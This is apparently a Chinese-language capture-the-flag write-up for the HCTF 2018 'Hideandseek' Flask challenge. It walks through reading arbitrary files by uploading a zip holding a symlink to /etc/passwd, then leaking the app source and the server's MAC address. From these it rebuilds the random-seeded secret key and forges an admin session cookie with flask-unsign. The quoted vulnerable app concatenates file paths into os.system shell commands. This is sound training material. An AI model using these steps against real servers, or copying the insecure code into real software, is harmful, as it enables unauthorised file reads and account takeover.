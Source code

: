 # \[HCTF 2018]Hideandseek

## \[HCTF 2018]Hideandseek

## 考点

* Linux下的ln命令
* Python随机数漏洞
* flask session伪造

## wp

提示先登录，随便输账号密码，比如aaaa/aaaa，提示要上传压缩包

![](<../../.gitbook/assets/image (24) (1).png>)

F12看到session是`eyJ1c2VybmFtZSI6ImFhYWEifQ.FVpCHQ.ekVxiCec35C4f6Dm2G2qW-HES7U`

解码是`{'username': 'aaaa'}`

上传一个压缩包，返回了压缩包中的文件内容，那这里使用`ln`软链接可能有任意文件读取，和[\[SWPU2019\]Web3](swpu2019-web3.md)差不多

* `ln -s /etc/passwd test`
* `zip -ry test.zip test`

![](<../../.gitbook/assets/image (28).png>)

读取`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，有用的就只有`/proc/self/environ`

{% code title="/proc/self/environ" %}
```
......
UWSGI_INI=/app/uwsgi.ini
PWD=/app
STATIC_PATH=/app/static
......
```
{% endcode %}

再读取`/app/uwsgi.ini`

```
[uwsgi] 
module=main 
callable=app 
logto=/tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/main.py`发现是个假的文件，原题的uwsgi.ini文件如下

```
[uwsgi]
module = hard_t0_guess_n9f5a95b5ku9fg.hard_t0_guess_also_df45v48ytj9_main
callable=app
logto = /tmp/hard_t0_guess_n9p2i5a6d1s_uwsgi.log
```

读取`/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py`

```python
# -*- coding: utf-8 -*-
from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
import uuid
import base64
import random
import flag
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS


@app.route('/', methods=['GET'])
def index():
    error = request.args.get('error', '')
    if(error == '1'):
        session.pop('username', None)
        return render_template('index.html', forbidden=1)

    if 'username' in session:
        return render_template('index.html', user=session['username'], flag=flag.flag)
    else:
        return render_template('index.html')


@app.route('/login', methods=['POST'])
def login():
    username=request.form['username']
    password=request.form['password']
    if request.method == 'POST' and username != '' and password != '':
        if(username == 'admin'):
            return redirect(url_for('index',error=1))
        session['username'] = username
    return redirect(url_for('index'))


@app.route('/logout', methods=['GET'])
def logout():
    session.pop('username', None)
    return redirect(url_for('index'))

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'the_file' not in request.files:
        return redirect(url_for('index'))
    file = request.files['the_file']
    if file.filename == '':
        return redirect(url_for('index'))
    if file and allowed_file(file.filename):
        filename = secure_filename(file.filename)
        file_save_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        if(os.path.exists(file_save_path)):
            return 'This file already exists'
        file.save(file_save_path)
    else:
        return 'This file is not a zipfile'


    try:
        extract_path = file_save_path + '_'
        os.system('unzip -n ' + file_save_path + ' -d '+ extract_path)
        read_obj = os.popen('cat ' + extract_path + '/*')
        file = read_obj.read()
        read_obj.close()
        os.system('rm -rf ' + extract_path)
    except Exception as e:
        file = None

    os.remove(file_save_path)
    if(file != None):
        if(file.find(base64.b64decode('aGN0Zg==').decode('utf-8')) != -1):
            return redirect(url_for('index', error=1))
    return Response(file)


if __name__ == '__main__':
    #app.run(debug=True)
    app.run(host='0.0.0.0', debug=True, port=10008)
```

获取flag的条件是session的username为admin

值得注意的是，它使用了`random.seed(uuid.getnode())`去生成随机数种子，然后设置secret\_key为随机数`app.config['SECRET_KEY'] = str(random.random()*100)`

Python中的random是伪随机数，只要种子是一样的，后面产生的随机数也是一样的

uuid.getnode()是返回当前主机网卡MAC地址的十进制形式，Linux中记录MAC地址的文件是`/sys/class/net/eth0/address`或者 `/etc/sysconfig/network-scripts/ifcfg-eth0`

读取`/sys/class/net/eth0/address`，得到`9e:e1:ac:68:a3:d1`

```
>>> s='9e:e1:ac:68:a3:d1'.replace(':','')
>>> s
'9ee1ac68a3d1'
>>> int(s,16)
174692097369041
```

然后重新跑一下随机数，Python2和3都试一下

{% code title="Python3" %}
```
>>> import random
>>> mac=174692097369041
>>> random.seed(mac)
>>> random.random()*100
75.69105245694635
```
{% endcode %}

然后重新生成session

```
flask-unsign --sign --cookie "{'username': 'admin'}" --secret '75.69105245694635'
eyJ1c2VybmFtZSI6ImFkbWluIn0.Yni6fA.z7e5HN3WUPwOIVRa5fyltNYuG_4
```

这里的随机数考点和[\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)一样。

![](<../../.gitbook/assets/image (25) (1).png>)

## 小结

1. [\[CISCN2019 华东南赛区\]Web4](ciscn2019-hua-dong-nan-sai-qu-web4.md)+[\[SWPU2019\]Web3](swpu2019-web3.md)=本题
